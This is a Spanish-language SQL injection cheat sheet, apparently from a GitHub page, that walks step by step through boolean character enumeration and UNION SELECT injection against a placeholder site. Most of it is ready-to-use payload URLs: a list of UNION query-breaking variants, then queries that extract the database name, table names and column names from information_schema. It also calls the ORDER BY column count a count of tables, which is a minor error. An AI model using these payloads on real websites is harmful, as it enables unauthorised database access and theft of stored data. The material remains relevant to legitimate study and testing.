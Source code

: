 `admin' and substring(username,1,1)='a' #devolverá true, ya que la primera posición de "admin" es "a". ` # Enumeración por caracter, en base de error.

## Union Select

Empezaremos con una web de ejemplo:

`http://fakesite.com/report.php?id=23`

Lo primero que realizaremos, será obtener algún tipo de error, para ello intentaremos romper la Query.

`http://fakesite.com/report.php?id=23' ` # Con una comilla final.

`http://fakesite.com/report.php?id=23' order by 5;-- - ` # Intentamos sacar cuantas tablas tiene la BBDD.

*A tener en cuenta, que a veces cuando sobre-excedemos con el order by, cierto contenido de la web, puede desaparecer*

```
http://fakesite.com/report.php?id=23 and 0 union select 1,2,3,4,5;-- -
http://fakesite.com/report.php?id=23 and false union select 1,2,3,4,5;-- -
http://fakesite.com/report.php?id=-23 union select 1,2,3,4,5;-- -
http://fakesite.com/report.php?id=23000000 union select 1,2,3,4,5;-- -
http://fakesite.com/report.php?id=null union select 1,2,3,4,5;-- -
http://fakesite.com/report.php?id=23 && 0 union select 1,2,3,4,5;-- -

# Otras formas de romper Query <-- URLEncondear.
```

Encontrado las tablas, continuamos:

`http://fakesite.com/report.php?id=23' union select 1,2,3,4,5;-- -` # Suponiendo que tenga 5 tablas, enumeramos.

*Podemos sustituir los números por lo que queramos, la cosa es tener visible que nos reporta la inyección de la query*

Suponiendo que se visualiza el número 3, podemos empezar a sustituir para filtrar contenido de la base de datos.

`http://fakesite.com/report.php?id=-23 union select 1,2,database(),4,5;-- -` # imprime el nombre de la base de datos.

Ahora podemos empezar a enumerar las tablas

`http://fakesite.com/report.php?id=-23 union select 1,2,table_name,4,5 from information_schema.tables where table_schema=database();-- -` # enumeramos tablas

*podemos jugar con limit para imprimir todo el contenido por lineas*

`http://fakesite.com/report.php?id=-23 union select 1,2,table_name,4,5 from information_schema.tables where table_schema=database() limit 0,1;-- -`

Ahora el proceso es muy similar para obtener las columnas y los datos de las columnas

`http://fakesite.com/report.php?id=-23 union Select 1,2,column_name,4,5 from information_schema.columns where table_schema=database() and table_name='tablenamehere;-- -'` # obtenemos las columnas
